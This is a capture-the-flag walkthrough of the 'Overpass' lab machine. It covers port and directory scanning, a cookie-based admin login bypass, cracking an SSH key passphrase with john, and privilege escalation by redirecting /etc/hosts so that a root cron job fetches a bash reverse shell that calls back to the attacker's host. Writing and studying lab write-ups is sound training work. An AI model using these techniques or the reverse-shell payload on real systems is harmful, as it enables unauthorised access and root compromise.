# Overpass

## Hack the machine and get the flag in user.txt

### Nmap Scan
```bash
IP=<target-machine-ip>
OWN_IP="<attacking-machine-ip>

mkdir nmap

nmap -sC -sV -oN nmap/initial $IP

# Found 22/tcp open ssh
# Found 80/tcp open http

nmap -p- -oN nmap/all_ports $IP

# Found 22/tcp open ssh
# Found 80/tcp open http
```


```bash
gobuster dir -u http://$IP/ -w directory-list-2.3-small.txt

# Found
# /img
# /downloads
# /aboutus
# /admin
# /css
```

### /admin
#### On network tab Found
#### login.js



#### That had a function named login




#### Analizing the login function
We can see that a the admin cookie will be set if we set a statusOrCookie named "SessionToken" with a value != "Incorrect Credentials"

So created a cookie named SessionToken with value abc and refresh the page and...



Bang we are inside the admin panel and we have a private ssh key



Copy the private key from 
----BEGIN to the end KEY-----

```bash
nano ida_rsa # Paste the key and ctrl+x

# Lets crack the passphrase from the private key 

ssh2john id_rsa > hash # Convert the id_rsa for a syntax john can understand

john hash --wordlist=/usr/share/wordlists/rockyou.txt # Let it crack the password

```

- While that runs pressing ctrl+u to view the source on the admin panel i found a user named: James

- Try that on ssh with id_rsa and passphrase found using john


```bash
chmod 600 id_rsa # premissons for rsa_key

ssh -i id_rsa james@$IP
# yes and enter passphrase
```

### Inside the machine
```bash
ls -la
cat user.txt
```


## Escalate your privileges and get the flag in root.txt

### Inside the machine
```bash
cat todo.txt
```


```bash
cat .overpass
```


```bash
cat /etc/crontab
```

```bash
find / -name "buildscript.sh" 2> /dev/null
# Found nothing, so assumed that it at to be a external request

# Checked /etc/hosts and it could be changed by me
cat /etc/hosts
```



```bash
nano /etc/hosts
```
#### Get attacking machine ip (host machine not james) by running: `ip addr` on a terminal on your machine


#### Inside your machine (Attacking machine)
Let's simulate the enviroment and put the payload

```bash
OWN_IP=<attacking-machine-ip> # Run: ip addr to find

mkdir -p server/downloads/src/
touch server/downloads/src/buildscript.sh
echo "/bin/bash -i >& /dev/tcp/$OWN_IP/8888 0>&1" >> server/downloads/src/buildscript.sh
# Found revshell command on https://www.revshells.com/

cd server
python3 -m http.server 80 # Start server on port 80
```

#### Still on your machine inside other terminal
```bash
nc -lvnp 8888

# Wait about 1 minute

ls -la

cat root.txt
```


